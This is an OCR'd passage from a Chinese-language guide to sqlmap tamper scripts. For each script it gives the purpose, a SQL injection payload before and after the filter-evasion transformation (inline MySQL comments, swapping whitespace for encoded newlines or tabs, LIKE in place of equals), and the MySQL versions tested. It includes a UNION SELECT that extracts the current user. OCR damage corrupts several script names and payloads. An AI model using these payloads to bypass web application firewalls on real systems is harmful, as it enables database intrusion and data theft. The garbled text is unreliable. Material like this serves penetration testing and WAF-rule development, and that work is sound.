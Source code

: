 SELECT id FROM users

使用脚本后，语句为：

SELECT%AOid%OBFROM%OCusers

测试通过的数据库类型和版本为MySQL 5.1.

###  modsecurityzeroversioned.py

作用：使用MySQL内联注释的方式(/\*! 00000\*/)进行注入。

使用脚本前的语句为：

1 AND 2>1-

使用脚本后，语句为：

1 /\*! 00000AND 2>1\*/-

测试通过的数据库类型和版本为MySQL 5.0。

###  spaceZmysqldash.py

作用：将空格替换为——，并添加Y换行符。

使用脚本前的语句为：

1 AND 9227=9227

使用脚本后，语句为：

1 %0AAND %0A9227=9227

###  bluecoat.py

作用：在SQL语句之后用有效的随机空白符替换空格符，随后用LIKE替换等于

使用脚本前的语句为：

SELECT id FROM users where id = 1

使用脚本后，语句为：

SELECT%09id FROM%09users WHERE%09id LIKE 1

测试通过的数据库类型和版本为MySQL 5.1和SGOS。

###  versioned keywords.py

作用：注释绕过。

使用脚本前的语句为：

UNION ALL SELECT NULL, NULL, CONCAT (CHAR (58, 104, 116, 116, 58) , IFNULL (CAST (CURRENT USER () AS CHAR) , CHAR (32)), CH/\*\*/AR (58, 100, 114, 117, 58) ) #

使用脚本后，语句为：

/\*! UNION\*\*! ALL\*! SELECT\*\*! NULL7, /\*! NULL7, CONCAT (CHAR (58, 104, 116, 116, 58) , IFNULL (CAST (CURRENT USER () /\*! AS\*\*! CHAR\*/) , CHAR (32) ) , CHAR (58, 100, 114, 117, 58) ) #
